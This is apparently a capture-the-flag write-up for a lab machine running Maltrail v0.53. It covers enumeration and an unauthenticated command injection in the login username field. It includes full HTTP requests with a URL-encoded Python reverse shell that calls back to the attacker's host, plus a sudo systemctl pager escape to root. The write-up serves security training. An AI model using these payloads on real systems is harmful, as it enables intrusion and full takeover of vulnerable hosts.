 ## NMAP

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-31 13:09 CET
Nmap scan report for 10.10.11.224
Host is up (0.16s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=12/31%OT=22%CT=1%CU=37001%PV=Y%DS=2%DC=I%G=Y%TM=65915A
OS:29%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=108%TI=Z%CI=Z%TS=A)SEQ(SP=F
OS:F%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53AST11NW7%O2=M53AST11NW7%O3
OS:=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11NW7%O6=M53AST11)WIN(W1=FE88%W2=F
OS:E88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.95 seconds
```

# USER

From `NMAP` we can see an port `55555`.Opening it in browser will redirect us to `/web`. Here we have a service like `webhooks`. We can create wehooks and after checking for some vulnerabilities I found nothing useful.

I the while I run gobuster in main path:

```bash 
gobuster dir -u http://10.10.11.224:55555/ -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,js,txt -t 20

```

```
/web                  (Status: 200) [Size: 8700]
/proxy                (Status: 200) [Size: 7091]
```
It returned antoher interesing endpoint which is `/proxy`.

Navigating it we can see that is the dashboard of `Maltail`.
Mailtrail is a software to detect malicious injection attempts and it operates as firewall blockint and monitoring them.
The crator is the same of sqlmap.


```text
/proxy


Powered by Maltrail (v0.53)
Hide threat
Report false positive
```

Ths software has a bad RCE vulnerability on version <= 0.54. 

- https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/

Let's try:

```
POST /proxy/login HTTP/1.1
Host: 10.10.11.224:55555
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

username=%60%73%6c%65%65%70%20%31%35%60
```

injecting `sleep` will lead in a sleep with always 5 seconds more than declared sleep seconds. For exmaple injecting:

```
`sleep 10`
```

will let burpsuite waiting for response for 15 seconds.
RCE quite confirmed and we can obtain a shell through:


```bash
`export RHOST="10.10.16.12";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
```

```http
POST /proxy/login HTTP/1.1
Host: 10.10.11.224:55555
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

username=%60%65%78%70%6f%72%74%20%52%48%4f%53%54%3d%22%31%30%2e%31%30%2e%31%36%2e%31%32%22%3b%65%78%70%6f%72%74%20%52%50%4f%52%54%3d%31%32%33%34%3b%70%79%74%68%6f%6e%33%20%2d%63%20%27%69%6d%70%6f%72%74%20%73%79%73%2c%73%6f%63%6b%65%74%2c%6f%73%2c%70%74%79%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%6f%73%2e%67%65%74%65%6e%76%28%22%52%48%4f%53%54%22%29%2c%69%6e%74%28%6f%73%2e%67%65%74%65%6e%76%28%22%52%50%4f%52%54%22%29%29%29%29%3b%5b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%66%64%29%20%66%6f%72%20%66%64%20%69%6e%20%28%30%2c%31%2c%32%29%5d%3b%70%74%79%2e%73%70%61%77%6e%28%22%73%68%22%29%27%60
```

and we obtain our reverse shell

whoami returns, we are puma and we can already raead `/home/user.txt`

# ROOT

Terminal is not fully functional so this can lead in some troubles, but we managed to get the flag anyway. Just rnu the minimal needed for interactive shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo
fg
```

Lin-Enum just like `sudo -l` (which luckily can be executed without knowing user password) shows the following:


```bash
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

this is pretty interesting, because what it is saying is that we can run the command `/usr/bin/systemctl status trail.service` as `sudo` without even known the password of the current user. This is because `NOPAASSWD` is written and writing in terminal


```bash
sudo /usr/bin/systemctl status trail.service
```

we can show the maltral service pager.

At this point we are in the same exact situation of this link:

- https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/

As written in the article we can enter a command when visualizing the pager and it will be executed as root.

we just need to type `!sh` without `:` in front of the command (unlike vim), to get the root shell.